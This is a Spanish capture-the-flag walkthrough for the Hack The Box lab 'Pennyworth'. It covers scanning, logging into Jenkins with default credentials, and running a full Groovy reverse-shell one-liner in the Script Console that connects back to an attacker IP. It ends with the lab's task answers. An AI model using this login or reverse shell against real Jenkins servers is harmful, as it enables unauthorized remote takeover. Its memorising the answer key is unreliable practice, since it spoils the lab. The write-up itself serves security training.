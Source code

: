 # Pennyworth

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Common Applications (Aplicaciones Comunes):** Son herramientas ampliamente utilizadas en entornos empresariales e industriales, como servidores de integración continua, bases de datos y servicios web. Aunque son esenciales para la productividad, su configuración incorrecta o el uso de versiones desactualizadas pueden exponer vulnerabilidades críticas que los atacantes pueden explotar.
  * **Jenkins:** Es una herramienta de automatización de integración y entrega continua (CI/CD) utilizada para compilar, probar y desplegar aplicaciones. Debido a su uso frecuente en entornos de desarrollo, si no se configura adecuadamente o se protege con credenciales seguras, puede ser un objetivo para ataques como la ejecución remota de código (RCE) o la explotación de credenciales predeterminadas.
  * **Java:** Es un lenguaje de programación versátil y ampliamente utilizado en aplicaciones empresariales y web. Aunque es potente, su ejecución en entornos vulnerables puede llevar a ataques como la deserialización insegura, vulnerabilidades en bibliotecas desactualizadas y explotación de código malicioso dentro de aplicaciones Java en ejecución.
  * **Reconnaissance (Reconocimiento):** Es una fase crítica en las pruebas de penetración donde se recopila información sobre el sistema objetivo. Esto incluye la identificación de versiones de software, credenciales predeterminadas y servicios expuestos, lo que permite a los atacantes descubrir posibles puntos de entrada y debilidades en la infraestructura.
  * **Remote Code Execution (Ejecución Remota de Código - RCE):** Es una de las vulnerabilidades más peligrosas que permite a un atacante ejecutar comandos arbitrarios en un sistema objetivo de forma remota. En entornos con Jenkins y Java, una mala configuración o el uso de plugins inseguros pueden llevar a la explotación de RCE, comprometiendo completamente el servidor.
  * **Default Credentials (Credenciales Predeterminadas):** Son credenciales establecidas por defecto en software o hardware que, si no se cambian, pueden ser utilizadas por atacantes para obtener acceso no autorizado. Servicios como Jenkins a menudo tienen credenciales predeterminadas que, si no son modificadas, pueden permitir compromisos completos del sistema con privilegios administrativos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.135.7
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.135.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **8080** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos las credenciales por defecto **root**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ubicamos en Manage Jenkins > Script Console para subir una Reverse Shell.

```bash
String host="10.10.16.35";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a run mientras nos ponemos en escucha.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Tarea 1**

**¿Qué significa el acrónimo CVE?**\
📌 **Common Vulnerabilities and Exposures** (Vulnerabilidades y Exposiciones Comunes)

**Tarea 2**

**¿Qué significan las tres letras en CIA, refiriéndose a la tríada CIA en ciberseguridad?**\
📌 **Confidentiality, Integrity, Availability** (Confidencialidad, Integridad, Disponibilidad)

**Tarea 3**

**¿Qué versión del servicio se está ejecutando en el puerto 8080?**\
📌 **Jetty 9.4.39.v20210325**

**Tarea 4**

**¿Qué versión de Jenkins se está ejecutando en el objetivo?**\
📌 **2.289.1**

**Tarea 5**

**¿Qué tipo de script se acepta como entrada en la Consola de Scripts de Jenkins?**\
📌 **Groovy**

**Tarea 6**

**¿A qué sería igual la variable "String cmd" del fragmento de script Groovy si la VM de destino estuviera ejecutando Windows?**\
📌 **cmd.exe**

**Tarea 7**

**¿Qué otro comando, además de "ip a", podríamos usar para mostrar la información de nuestras interfaces de red en Linux?**\
📌 **ifconfig**

**Tarea 8**

**¿Qué opción debemos usar con netcat para que utilice el modo de transporte UDP?**\
📌 **-U**

**Tarea 9**

**¿Cuál es el término utilizado para describir hacer que un host objetivo inicie una conexión de regreso al host del atacante?**\
📌 **reverse shell**
